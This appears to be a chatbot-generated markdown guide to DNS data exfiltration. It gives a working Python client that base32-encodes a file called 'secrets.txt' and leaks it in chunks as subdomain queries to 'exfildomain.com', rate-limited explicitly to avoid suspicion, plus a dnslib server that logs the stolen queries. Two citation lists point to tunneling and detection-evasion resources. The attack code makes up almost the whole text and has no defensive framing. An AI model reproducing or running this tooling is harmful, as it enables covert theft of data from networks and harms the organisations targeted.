 ## 🖥️ Step 1: Python DNS Exfil Script (Client Side)

```python
import base64
import dns.resolver  # pip install dnspython
import time

def send_dns_query(data, domain):
    try:
        dns.resolver.resolve(f"{data}.{domain}", 'A')
    except Exception:
        pass  # Ignore failures, we're just sending queries

def exfiltrate_file_via_dns(filename, domain, delay=0.5):
    with open(filename, 'rb') as f:
        content = f.read()

    # Base32 is DNS-safe (uppercase letters + digits)
    encoded = base64.b32encode(content).decode()

    # Break into 50-char chunks
    chunks = [encoded[i:i+50] for i in range(0, len(encoded), 50)]

    for i, chunk in enumerate(chunks):
        subdomain = f"{i}.{chunk}.{domain}"
        print(f"[>] Sending chunk: {subdomain}")
        send_dns_query(subdomain, domain)
        time.sleep(delay)  # Rate-limit to avoid suspicion

exfiltrate_file_via_dns("secrets.txt", "exfildomain.com")
```

---

## 🌐 Step 2: DNS Server Logging Setup (Server Side)

### Option A: Simple Logging Server (Python + `dnslib`)

```python
from dnslib.server import DNSServer, DNSHandler, BaseResolver
from dnslib import DNSRecord

class LoggerResolver(BaseResolver):
    def resolve(self, request, handler):
        qname = request.q.qname
        print(f"[<] Query received: {qname}")
        # Respond with dummy IP
        reply = request.reply()
        reply.add_answer(*DNSRecord.question(qname).rr("A", rdata="127.0.0.1"))
        return reply

resolver = LoggerResolver()
server = DNSServer(resolver, port=53, address="0.0.0.0", tcp=False)
server.start()
```


[1]: https://github.com/PaulKoumedzro/iodine-DNS-tunneling?utm_source=chatgpt.com "GitHub - PaulKoumedzro/iodine-DNS-tunneling: Official git repo for iodine dns tunnel"
[2]: https://github.com/bufo333/python-dns-exfiltration-client-server?utm_source=chatgpt.com "GitHub - bufo333/python-dns-exfiltration-client-server: A DNS exfiltration client and server written in python"
[3]: https://danger-team.org/the-ultimate-dns-tunneling-guide-from-zero-to-hero/?utm_source=chatgpt.com "The Ultimate DNS Tunneling Guide: From Zero to Hero"
[4]: https://exfil.tymyrddin.dev/docs/thm/dns-tunnel?utm_source=chatgpt.com "DNS tunneling — Gathering edibles"
[5]: https://medium.com/%400xHossam/evading-detection-and-stealthy-data-exfiltration-with-dns-over-https-doh-ee134b5766d4?utm_source=chatgpt.com "Evading Detection and Stealthy Data Exfiltration with DNS over HTTPS (DoH) | by Hossam Ehab | Medium"
[6]: https://www.reddit.com/r/hacking/comments/mhzsz0?utm_source=chatgpt.com "Exfiltrate files using the DNS"
[7]: https://medium.com/learning-cybersecurity/http-dns-encrypted-data-exfiltration-techniques-77d6fee6c749?utm_source=chatgpt.com "HTTP/DNS/Encrypted data exfiltration techniques | by Angel Mercado | Learning CyberSecurity | Medium"
[1]: https://github.com/bufo333/python-dns-exfiltration-client-server?utm_source=chatgpt.com "GitHub - bufo333/python-dns-exfiltration-client-server: A DNS exfiltration client and server written in python"
[2]: https://nhairs.github.io/dnslib/latest/reference/dnslib/?utm_source=chatgpt.com "Index - Dnslib"
[3]: https://nhairs.github.io/dnslib/latest/?utm_source=chatgpt.com "Dnslib"
[4]: https://github.com/stamparm/python-doh?utm_source=chatgpt.com "GitHub - stamparm/python-doh: Python client for DNS over HTTPS (DoH) protocol"
[5]: https://en.wikipedia.org/wiki/DNS_over_HTTPS?utm_source=chatgpt.com "DNS over HTTPS"
[6]: https://medium.com/%40Oscar404/dns-tunneling-attack-d2b610150a45?utm_source=chatgpt.com "DNS Tunneling attack. Introduction to DNS Tunneling | by Oscar404 | Medium"
[7]: https://www.reddit.com/r/masterhacker/comments/n5g46a?utm_source=chatgpt.com "So... I guess they were right all along?"